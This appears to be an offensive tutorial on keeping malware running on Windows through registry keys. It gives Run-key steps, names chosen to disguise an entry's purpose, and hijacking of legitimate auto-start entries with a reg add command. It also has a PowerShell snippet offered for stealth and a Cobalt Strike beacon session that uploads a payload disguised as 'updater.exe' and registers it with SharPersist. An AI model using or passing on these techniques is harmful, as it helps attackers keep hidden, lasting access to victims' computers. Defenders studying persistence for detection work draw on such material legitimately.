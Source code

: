 ### **ESTABLISHING PERSISTENCE USING REGISTRY KEYS**

Using the Windows Registry for persistence involves creating or modifying registry keys that instruct Windows to automatically execute specific programs or scripts at certain events, like system startup or user logon.

### **STEP 1: SELECT THE APPROPRIATE REGISTRY KEY**

Depending on the persistence requirement (system-wide or user-specific), choose the appropriate registry location:

1.  For all users (requires administrative privileges) :  
    `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
    
2.  For the current user only:  
    `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
    
3.  Ensure the executable or script is reliable and placed in a secure, accessible location. It should not require additional prompts or permissions that might hinder its execution.
    

### **STEP 2: ADD A REGISTRY ENTRY**

1.  Open the Registry Editor: Press `Win + R`, type `regedit`, and press Enter. Ensure you have the necessary permissions to modify the registry.
    
2.  Navigate to the appropriate key
    
3.  For system-wide execution, navigate to  
    `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`.
    
4.  For current user execution, navigate to  
    `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`.
    
5.  Create a new string value
    
6.  Right-click in the right pane, select  
    `New` > `String Value`.
    
7.  Name the new string value descriptively to disguise its purpose (e.g., `SystemHelper`).
    
8.  Set the value of the new entry:
    
9.  Double-click the new string value and enter the path to your executable or script as the value data. For example:  
    `C:\Path\To\Your\Executable.exe`
    

### **STEP 3: TEST THE PERSISTENCE**

1.  Restart Your Computer or log out and then log back in (if using HKEY_CURRENT_USER) to test if the setup works.
2.  Verify Execution: After logging back in or restarting, check if your program or script runs automatically.
3.  Remove or Disable the Registry Entry When No Longer Needed:  
    `reg delete "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v SystemHelper /f`

### **TECHNIQUE 1: USING ALTERNATE REGISTRY PATHS**

Some applications use specific registry paths to configure auto-start settings. You can place your persistence mechanism in less commonly monitored registry paths.

1.  Identify Custom Registry Keys: Applications may use custom registry keys for auto-start. Identify these through documentation or by monitoring application installations.
2.  Example: Instead of the standard Run keys, you might use:  
    `HKEY_CURRENT_USER\Software\Classes\clsid\{GUID}\shell\open\command`
3.  Place your executable path here to trigger it when the application linked to the GUID is invoked.

### **TECHNIQUE 2: REGISTRY KEY HIJACKING**

Modify existing legitimate registry keys to include your persistence payload, which can be particularly stealthy.

1.  Find Vulnerable Keys: Use a registry scanner to find legitimate keys that auto-start programs, services, or drivers that frequently update or change.  
    `Find legitimate keys that auto-start programs, services, or drivers that frequently update or change.`
    
2.  Append or Modify the Executable Path:  
    `reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "LegitimateService" /d "C:\Path\To\Your\Executable.exe && original_command.exe" /f`
    

### **TECHNIQUE 3: USING WINDOWS POWERSHELL REGISTRY MANIPULATION FOR STEALTH**

Manipulate registry keys using PowerShell to leave fewer traces and utilize more complex logic.

1.  Develop a Script: Use PowerShell's ability to script complex conditions, check for user activity, or system states before modifying the registry.
    
    ```POWERSHELL
    If ((Get-Process -Name explorer -ErrorAction SilentlyContinue) -ne $null) {
      Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "C:\Path\To\Script.ps1"
    }
    ```
    

### **COBALTSTRIKE**

AutoRun values in HKCU and HKLM allow applications to start on boot. You commonly see these to start native and 3rd party applications such as software updaters, download assistants, driver utilities and so on.

```
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\http_x64.exe
beacon> mv http_x64.exe updater.exe
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add

[*] INFO: Adding registry persistence
[*] INFO: Command: C:\ProgramData\Updater.exe
[*] INFO: Command Args: /q /n
[*] INFO: Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
[*] INFO: Registry Value: Updater
[*] INFO: Option: 
[+] SUCCESS: Registry persistence added
Where:
```

-k is the registry key to modify.
-v is the name of the registry key to create.